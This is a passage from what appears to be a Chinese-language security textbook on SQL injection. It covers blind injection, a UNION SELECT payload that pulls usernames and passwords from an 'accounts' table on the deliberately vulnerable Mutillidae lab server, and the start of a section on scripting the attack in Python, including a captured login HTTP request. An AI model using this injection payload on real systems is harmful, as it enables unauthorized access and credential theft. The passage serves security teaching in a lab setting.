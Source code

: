 你不一定每次都这么幸运；有些系统只会生成通用的错误信息。成功对这些系统进行注入攻击的攻击通常被称为 *盲注攻击*，因为攻击者无法立即看到是否失败。为了绕过这个限制，攻击者通常依赖查询执行时间的差异来判断是否正确执行。

在你练习过自己的查询之后，尝试查询 `accounts` 表。以下注入代码应该提取数据库中 16 个用户的用户名和密码：

```
' UNION SELECT * FROM accounts where '' ='

Username=kevin
Password=42
Signature=Doug Adams rocks

Username=dave
Password=set Signature=Bet
on S.E.T. FTW
```

如你所见，注入的查询成功地与现有查询的结果合并，这使得你能够提取 `accounts` 表中的所有字段。我选择只展示返回数据的一部分。

### **编写你自己的 SQL 注入工具**

在你掌握了 SQL 注入机制后，尝试编写一个 Python 程序来自动化注入过程。我们的程序将模拟通过模仿浏览器发送的 HTTP 请求来提交网站的登录表单；因此，这个项目将需要基本的 HTTP 协议知识。接下来，我们先来讨论一下 HTTP。

#### ***理解 HTTP 请求***

每当用户与网站互动时，他们的浏览器会将他们的操作转换成 *HTTP 请求* 并发送到 Web 服务器。HTTP 请求包含用户请求的资源名称以及用户发送到服务器的数据。服务器回应 *HTTP 响应* 消息，其中包含用户请求的 HTML 或二进制数据。这些响应随后被解析并显示给用户。

为了生成 HTTP 请求，你首先需要理解它们的结构。为了准确起见，让我们使用 Wireshark 捕获并检查浏览器提交 Mutillidae 登录表单时生成的确切 HTTP 请求，用户名为“test”，密码为“abcd”。（返回 第三章 查看如何使用 Wireshark 监控流量的复习内容。）

开始监控以太网（`eth0`）接口，然后提交登录表单以生成请求。提交后，使用过滤器选择包含 Metasploitable 服务器 IP 的数据包，然后选择 **跟踪流** 选项。你的请求应该看起来像这样：

```
➊ GET /mutillidae/index.php?page=user-info.php&➋ username=test&password=abcd&...

   Host: 192.168.1.101

   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox

			 /68.0

   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

   Accept-Language: en-US,en;q=0.5

   Accept-Encoding: gzip, deflate

   Referer: http://192.168.1.101/mutillidae/index.php?page=user-info.php.....

   Connection: keep-alive

➌ Cookie: PHPSESSID=3e726056cf963b43bd87036e378d07be

   Upgrade-Insecure-Requests: 1
➍
```
